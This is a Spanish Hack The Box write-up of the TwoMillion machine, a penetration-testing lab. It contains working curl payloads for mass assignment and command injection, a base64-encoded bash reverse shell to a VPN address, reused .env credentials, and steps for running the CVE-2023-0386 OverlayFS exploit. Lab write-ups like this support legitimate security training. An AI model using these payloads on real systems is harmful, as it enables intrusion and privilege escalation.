# TwoMillion — Hack The Box

> [!info] Resumen
> Máquina Linux que recrea el antiguo portal de invitaciones de **HackTheBox**. Se bypassea el registro por invitación desofuscando un JS y decodificando el código (**ROT13** + **Base64**). Ya dentro, se explota un **[[mass assignment]]** en `PUT /api/v1/admin/settings/update` (`is_admin=1`) para convertirnos en administrador, y luego un **[[command injection]]** en `/api/v1/admin/vpn/generate` para obtener una reverse shell como `www-data`. Con las credenciales del `.env` se accede por SSH como `admin`, y la escalada a root se logra con **[[CVE-2023-0386]]** (OverlayFS/FUSE).

**Cadena de ataque:**
```
Recon → 2million.htb → bypass invitación (ROT13 + Base64) → registro
→ mass assignment admin/settings/update (is_admin=1) → admin
→ command injection admin/vpn/generate → shell www-data
→ .env creds → SSH como admin → user.txt
→ CVE-2023-0386 (OverlayFS/FUSE) → root → root.txt
```

---
IP del host remoto = 10.129.137.114 (varía en cada instancia de la máquina)

## 1. Reconocimiento

### 1.1 Escaneo de puertos

Comenzamos conectándonos a la VPN de HTB. Realizamos un escaneo completo de puertos con Nmap:

```bash
nmap -p- -sV -A -T5 --min-rate 5000 10.129.137.114
```

**Salida relevante:**
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

Vemos los puertos 22 (SSH) y 80 (HTTP). Al intentar acceder a la web, nos redirige a `http://2million.htb/`, un dominio que nuestro Kali no puede resolver. Para solucionarlo, asociamos la IP al hostname y verificamos la conectividad:

```bash
echo "10.129.137.114 2million.htb" | sudo tee -a /etc/hosts
ping 2million.htb
```


Al recargar el navegador, ahora sí carga el banner antiguo de HackTheBox con un sistema de login por invitación y entramos donde Join.


---

## 2. Análisis web y bypass de invitación

Inspeccionando la web (F12 → Debugger), encontramos un script ofuscado llamado `inviteapi.min.js` que usa el empaquetador *Packer* de Dean Edwards (`eval(function(p,a,c,k,e,d)...)`).



Para desofuscarlo sin riesgo, cambiamos el `eval` por un `console.log` y lo ejecutamos en la consola del navegador (o en Node.js), obteniendo esto:

```bash
function verifyInviteCode(code){var formData={code:code};$.ajax({type:POST,dataType:json,data:formData,url:'/api/v1/invite/verify',success:function(response){console.log(response)},error:function(response){console.log(response)}})}function makeInviteCode(){$.ajax({type:POST,dataType:json,url:'/api/v1/invite/how/to/generate',success:function(response){console.log(response)},error:function(response){console.log(response)}})}
```

Para ver mejor el código js, podemos usar un Beautifier de JavaScript para leerlo más facil:
```js
function verifyInviteCode(code) {
    var formData = {
        code: code
    };
    $.ajax({
        type: POST,
        dataType: json,
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: POST,
        dataType: json,
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
*(Aquí sí es útil ver cómo el código ilegible se transforma en las funciones legibles).* El resultado nos revela dos funciones y endpoints clave:
*   `POST /api/v1/invite/verify`
*   `POST /api/v1/invite/how/to/generate`

Hacemos una petición POST al endpoint de generación:

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate \
-H "Content-Type: application/json" \
-v
```

**Respuesta del servidor:**
```json
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

El servidor nos indica que está cifrado con ROT13. Lo decodificamos con `tr`:

```bash
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
**Mensaje claro:** 
*In order to generate the invite code, make a POST request to /api/v1/invite/generate*

Hacemos la petición indicada:
```bash
curl -X POST http://2million.htb/api/v1/invite/generate -H "Content-Type: application/json" -v
```

**Respuesta del servidor:**
```json
{"0":200,"success":1,"data":{"code":"NEg1M1MtOEhYTUMtR1NONU8tVzVVME0==","format":"encoded"}}
```


Decodificamos el Base64:
```bash
echo "NEg1M1MtOEhYTUMtR1NONU8tVzVVME0==" | base64 -d
```
Obtenemos el código `W2U16-3FLL3-GVBUM-ZCPX6`. Este varia según lo generemos.
Lo introducimos en la web, nos registramos con un correo ficticio 


Y luego, al ingresar con nuestras credenciales, accedemos al dashboard.



---

## 3. Enumeración de la API y escalada a administrador

Estando dentro, guardamos nuestra cookie de sesión para más adelante.

La sección "Access" genera archivos `.ovpn`. Mirando la pestaña *Network* del navegador, vemos que la petición se envía a `/api/v1/user/vpn/generate`.

Visitando `http://2million.htb/api/v1` obtenemos la documentación de la API. 
```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",                                                                               
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Nos interesa el endpoint de administrador `/api/v1/admin/vpn/generate`, pero al intentar consumirlo, el servidor nos bloquea:

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-sv \
--cookie PHPSESSID=va949eednqu99ivan6j1o48rt1
```

**Salida relevante:**
```text
> POST /api/v1/admin/vpn/generate HTTP/1.1
...
< HTTP/1.1 401 Unauthorized
```


> [!info] Nota
> La cookie `PHPSESSID` fue extraída previamente desde la pestaña Application/Storage del navegador para poder mantener la sesión activa desde `curl`.

Necesitamos ser admin. 
Si revisamos el endpoint `/api/v1/admin/auth`, obtenemos la respuesta:
```json
message: false
```

Exploramos el endpoint de configuración `PUT /api/v1/admin/settings/update` y empezamos a tantear los parámetros usando los errores como guía:

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d {} \
-sv \
--cookie PHPSESSID=va949eednqu99ivan6j1o48rt1 | jq
```

**Salida del servidor:**
```json
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```


Añadimos el email:
```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d '{"email": "test@test.com"}' \
-sv \
--cookie PHPSESSID=va949eednqu99ivan6j1o48rt1 | jq
```

**Salida del servidor:**
```json
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Añadimos el parámetro `is_admin`:
```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d '{"email":"test@test.com", "is_admin":1}' \
-sv \
--cookie PHPSESSID=va949eednqu99ivan6j1o48rt1 | jq
```

**Salida del servidor:**
```json
{
  "id": 14,
  "username": "jdrsajonia",
  "is_admin": 1
}
```



Revisamos nuevamente el endpoint `/api/v1/admin/auth` y ahora tenemos: 
```json
message: true
```
---

## 4. Command injection y reverse shell

Volvemos al endpoint `/api/v1/admin/vpn/generate`. Enviamos la petición con un nombre de usuario válido y obtenemos la configuración `.ovpn`.

Para probar si es vulnerable, inyectamos un comando básico:
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-sv \
--cookie PHPSESSID=va949eednqu99ivan6j1o48rt1 \
-d '{"username":"jdrsajonia;whoami;"}'
```
El servidor responde `www-data`. **Confirmado: Command Injection.** 


Para obtener una reverse shell, debemos evadir los caracteres especiales que rompen el JSON (`>`, `&`, `/`). La solución es codificar el comando en Base64.
Mientras tanto, ponemos un listener en otra terminal:
```bash
nc -lnvp 4444
```

Generamos el payload con nuestra IP local de la VPN y armamos la petición final:
```bash
echo "bash -i >& /dev/tcp/10.10.17.133/4444 0>&1" | base64
# Resultado: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xMzMvNDQ0NCAwPiYxCg==

curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-sv \
--cookie PHPSESSID=va949eednqu99ivan6j1o48rt1 \
-d '{"username":"jdrsajonia; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xMzMvNDQ0NCAwPiYxCg== | base64 -d | bash;"}'
```



---

## 5. Movimiento lateral y flag de usuario

Ya estamos en el directorio de la web.
Si seguimos nuestro instinto y buscamos `user.txt` navegando a `/home/admin`, efectivamente nos toparemos con la flag. Pero hay un problema y es que como somos usuario `www-data` no tenemos permiso de leer el archivo, asi que necesitamos llegar allá de otra forma.

Si listamos con `ls -la` veremos archivos ocultos como un `.env`. Leemos el archivo con `cat .env`:
```bash
cd /var/www/html && cat .env
```
**Salida:**
```text
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Aunque podemos usar MySQL, el usuario `admin` también existe a nivel de sistema. Probamos SSH con esa contraseña:
```bash
ssh admin@2million.htb
# Password: SuperDuperPass123
```


¡Acceso concedido! Ahora leemos la flag de usuario:
```bash
cat /home/admin/user.txt
```


**Flag de usuario encontrada!**

---

## 6. Escalada de privilegios

### 6.1 Pista en el correo local

Como el usuario `admin`, revisamos el correo local:
```bash
cat /var/mail/admin
```
El correo advierte sobre un fallo grave en el kernel, específicamente en **OverlayFS / FUSE**. Investigando en Google, damos con el **[[CVE-2023-0386]]**.

### 6.2 Análisis de la vulnerabilidad

**[[CVE-2023-0386]]** — Linux kernel OverlayFS/FUSE privilege escalation.

- **CVSS:** 7.8 (High)
- **CWE:** [[CWE-282]] (Improper Ownership Management)
- **Impacto:** escalada a root en kernels con OverlayFS vulnerable.

OverlayFS apila capas de archivos (lectura/escritura). Al modificar un archivo de la capa inferior, se hace un *copy-up* a la capa superior. FUSE permite a un usuario montar sistemas de archivos falsos en memoria. El fallo radica en que OverlayFS confía en los permisos que reporta FUSE. Montamos un FUSE falso que dice tener un archivo con SUID de root, forzamos el *copy-up*, y el kernel escribe ese archivo en el disco real con permisos de root.

### 6.3 Explotación

Usaremos el PoC de Github de `puckiestyle` para este caso en nuestra máquina local y lo subimos a la víctima por SCP 
> [!info] Nota
>( Se usa la herramienta `scp` para pasar el repositorio de git a la máquina victima, pues esta última no tiene conectividad a internet. Podemos confirmar esto haciendo un ping a Google)

```bash
# desde nuestra maquina local
git clone https://github.com/puckiestyle/CVE-2023-0386.git
scp -r CVE-2023-0386/ admin@2million.htb:/home/admin/
```


Volviendo a la máquina remota, intentamos compilar con `make all` pero falla. Compilamos manualmente:
```bash
cd /home/admin/CVE-2023-0386
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

El exploit se ejecuta en dos terminales SSH como `admin`:

**Terminal 1:** Montamos el FUSE.
```bash
./fuse ./ovlcap/lower ./gc
```
**Terminal 2:** Ejecutamos el exploit.
```bash
./exp
```




---

## 7. Flag de root

```bash
cd /root && cat root.txt
```


**Flag de root encontrada!**

---

## 8. Conclusión y lecciones

- **Vector inicial:** bypass de invitación (ROT13 + Base64) + [[mass assignment]] en `admin/settings/update` para escalar a administrador, seguido de [[command injection]] en `admin/vpn/generate`.
- **Escalada:** [[CVE-2023-0386]], confianza indebida de OverlayFS en los permisos reportados por FUSE.
- **Lección:** nunca confiar en parámetros del cliente para campos sensibles como `is_admin` (asignación masiva), y jamás concatenar entrada de usuario en comandos del sistema. Un kernel desactualizado convierte un simple acceso de usuario en root.

**Mitigaciones:**

- Implementar allow-list de parámetros en endpoints de actualización (evitar mass assignment sobre `is_admin`).
- Sanitizar/parametrizar toda entrada antes de pasarla a `exec`/shell; evitar invocar la shell cuando sea posible.
- Actualizar el kernel para parchear [[CVE-2023-0386]].
- No almacenar credenciales reutilizables en texto plano (`.env`) ni reutilizarlas entre la base de datos y cuentas del sistema.

---

## 9. Referencias

- [NVD — CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386)
- [CVE.org](https://www.cve.org/CVERecord?id=CVE-2023-0386)
- [PoC — puckiestyle/CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386)
- [[mass assignment]]
- [[command injection]]
- [[OverlayFS]]

---
